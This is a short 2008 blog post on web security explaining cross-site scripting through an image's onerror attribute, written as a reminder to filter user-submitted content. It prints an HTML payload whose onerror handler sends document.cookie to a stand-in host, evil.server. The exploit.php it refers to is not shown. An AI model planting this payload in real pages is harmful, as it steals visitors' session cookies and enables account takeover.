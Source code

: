 ```yaml
---
title: XSS with Img OnError attribute
date: 2008-03-20
tag:
- javascript
- php
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

<!--more-->

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  That's right - this can be done - using the `onerror` attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the `onerror` attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
  <body>
    <h1>test</h1>
    <h2>asdf</h2>
    <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
  </body>
</html>
```

Then, on `evil.server`, place your image.  Finally, top it off with the following code in **`exploit.php`**

Easy as that.  Just another reminder to properly filter your use submitted content.
